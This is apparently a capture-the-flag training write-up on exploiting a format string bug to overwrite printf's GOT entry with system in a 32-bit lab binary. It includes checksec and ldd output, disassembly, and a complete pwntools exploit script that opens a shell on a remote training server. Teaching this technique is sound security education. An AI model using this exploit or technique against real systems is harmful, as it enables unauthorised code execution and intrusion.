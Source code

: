 ```yaml
---
description: Using format strings to write to the GOT table.
---
```


# gotem

{% file src="../../.gitbook/assets/gotem.zip" %}

Our goal in this binary is to overwrite a function's address inside the GOT table. This will hijack the function's behavior, meaning we can call that function and force it to call another.

To ensure we can do this, we check the security to ensure that RELRO is not fully enabled:

```bash
$ checksec gotem
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/08-got/gotem/src/gotem'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

We see this binary has **Partial RELRO**. This means the GOT table was moved above the program variables, meaning we can't ever overflow into the GOT. This doesn't mean we can't overwrite its contents using another method (like a format string vulnerability).

There are lots of other vulnerabilities in this binary. We also notice that PIE is turned off, which is good for us. This means that we have the absolute address of the GOT table, so we can overwrite it. _For this binary, we will assume that ASLR is **disabled**._

### Static Analysis

The code in this binary is definitely interesting. If we look at the `read_in` function, we notice some interesting features:

* The end of the function has no return. The end of the function jumps back to `read_in + 21`. _This is an infinite `while` loop_. We'll need to consider how we can take advantage of this.
*   This binary features a secure `fgets` call that reads in `0x12c` bytes into a `0x134` byte buffer. This means we can't overflow the buffer.

    ```as
       0x080491e1 <+59>:	mov    eax,DWORD PTR [ebx-0x8]
       0x080491e7 <+65>:	mov    eax,DWORD PTR [eax]
       0x080491e9 <+67>:	sub    esp,0x4
       0x080491ec <+70>:	push   eax
       0x080491ed <+71>:	push   0x12c
       0x080491f2 <+76>:	lea    eax,[ebp-0x134]
       0x080491f8 <+82>:	push   eax
    => 0x080491f9 <+83>:	call   0x8049070 <fgets@plt>
    ```
* This binary has a clear format string vulnerability. We can use this to perform arbitrary reads or, more importantly, arbitrary writes.

The existence of the infinite loop means we can continue to write data. We're writing to the same secure buffer, so this doesn't mean we can overflow it. Let's think about our attack vector.

* We need to overwrite the GOT table. To do this, we need to perform an arbitrary write.
* We can use the first iteration of the loop to find out where we write in memory. Like [format](../03-formats/format.md), we'll put the address we want to write at this location.
* We then need to find the difference in offset between the function we choose to overwrite and what we want the new function to be. In this case, we choose to overwrite `printf` because it directly calls our input string, and we will overwrite it with the address of `system`.
* Finally, by passing `/bin/sh` as our input, `system` will be called instead of `/bin/sh` and we will get a shell.

Let's make it happen!

### Writing the Exploit

We know how to do format strings to perform arbitrary writes. We can actually get pwntools to do this for us using their `fmtstr_payload` function. This function takes two arguments:

1. The offset to the address (i.e., which argument we'd use for `%n`)
2. A dictionary containing the address we are changing and the value we want to change it to.

In this case, we want to change the fifth argument (_verify this for yourself!_). We want to change the address of `printf` in the GOT table to the `libc` address of `system`. This makes our payload string look like:

```python
payload = fmtstr_payload(5, {elf.got.printf : libc.sym.system})
```

This saves us a lot of time calculating the number of bytes we need to write, writing those bytes, and then using the `%n` identifier to write the correct number of bytes. We can just use the `fmtstr_payload` function to do it for us.

Remember that if we don't initialize the base address of `libc`, it will just use an offset. We need to get the base address. Since ASLR is turned off, this is a hardcoded value. We can get this by running `ldd` on the binary to check the dynamic linker:

```bash
$ ldd gotem
	linux-gate.so.1 (0xf7fc4000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7c00000)
	/lib/ld-linux.so.2 (0xf7fc6000)
```

This tells us that `libc` is located at `0xf7c00000`. When we make the exploit, we'll use this as the base address for `libc` before using any `libc` functions.

This makes our full exploit look like:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./gotem')
libc = elf.libc
libc.address = 0xf7c00000
p = remote('vunrotc.cole-ellis.com', 8100)

payload = fmtstr_payload(5, {elf.got.printf : libc.sym.system})

p.recvline()
p.sendline(payload)
p.interactive()
```
{% endcode %}

This will get us shell on the remote server and hence our flag!
